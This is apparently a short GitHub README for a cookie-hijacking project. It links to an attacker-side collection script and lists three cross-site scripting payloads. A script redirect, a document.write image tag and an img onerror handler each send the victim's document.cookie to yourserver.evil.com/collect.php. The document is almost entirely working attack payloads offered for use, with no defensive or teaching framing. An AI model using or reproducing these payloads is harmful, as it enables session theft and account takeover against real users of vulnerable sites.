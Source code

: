 # Cookies Hijacking 

## Server Code : [Link](https://github.com/Taylorcho123/Cookies-Hijacking/blob/master/get_cookies.php)

## XSS Code :
1. 
#### Send client's cookie as a GET parameter.
#### also, redirect to server page of the attacker.
    <script>document.location="http://yourserver.evil.com/collect.php?cookie="+document.cookie;</script>

2. 
#### Using img tag and send the cookie.
#### No redirection.
    document.write('<img src="http://yourserver.evil.com/collect.php?cookie=' + document.cookie + '" />')

    <img src=x onerror=this.src='http://yourserver.evil.com/collect.php?cookie='+document.cookie>